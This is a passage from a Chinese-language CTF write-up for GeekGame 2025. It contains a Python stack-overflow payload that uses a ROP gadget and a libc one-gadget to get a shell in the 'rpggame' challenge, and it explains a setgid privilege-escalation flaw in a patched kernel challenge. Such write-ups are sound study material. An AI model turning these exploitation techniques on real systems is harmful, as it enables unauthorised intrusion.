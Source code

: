 简单处理一下，就能够完成了：

```python
# 泄露Libc基址的时候，我们把 RBP 玩坏了，密码指针指向零，
# 所以需要用零密码登录，而非之前爆破出来的密码
login(io, b"\x00"*16)

payload  = b'A'*0x70
payload += p64(SAFE_RBP + 0x200) # Make [rbp-0x78] == NULL
payload += p64(SET_RAX)
# 在 SET_RAX 的跳转中，会把 RAX 设置为 下面传入的值 + RAX_OFF
# 为了让 RAX == NULL，就这么写吧
payload += p64(0xFFFFFFFFFFFFFFFF - RAX_OFF + 1)
payload += p64(libc_base + 0xef52b) # By magic, we get shell
send_overflow(io, payload)

io.sendline(b"cat /flag")
```

[完整Exp](./附件/rpggame-脚本.py)。

# 传统 C 语言核易危【binary-safekernel】

## 飞沙走石

二阶段提示救我狗命。

> 阅读下发 `0001-GeekGame-2025.patch` 文件中关于修改文件所属 **用户组** 的相关逻辑。

发现了`setgid`的逻辑有问题！具体来说，就是文件的所有者可以随便设置这个文件的所属用户组！

那怎么做呢？目标平台上**并没有编译器**。

起初，我以为利用busybox自带的工具就能够完成漏洞利用，因此没有提供编译器。

> 多么清澈而愚蠢的想法。

之后，我觉得此路不通。于是在本地用gcc编译好exp，想方设法上传（和上面的Java题传.so文件有异曲同工之妙）。执行：`Segment Fault`。

百思不解。 

最后，选择使用汇编，通过`nasm`编译，成功执行。 [汇编](附件\safekernel-我是春竹.asm)。 [脚本](附件\safekernel-脚本.py)。

> 一小时后做Flag2的时候才发现使用`musl-gcc`静态编译就行了。

## 力拔山兮

似乎是共享文件表和SUID的配置有问题。但我没找到让busybox保留SUID打开文件的方法。几个可能有用的applet都失败了。

# 股票之神【algo-market】

## 我是巴菲特

## 我是股票女王
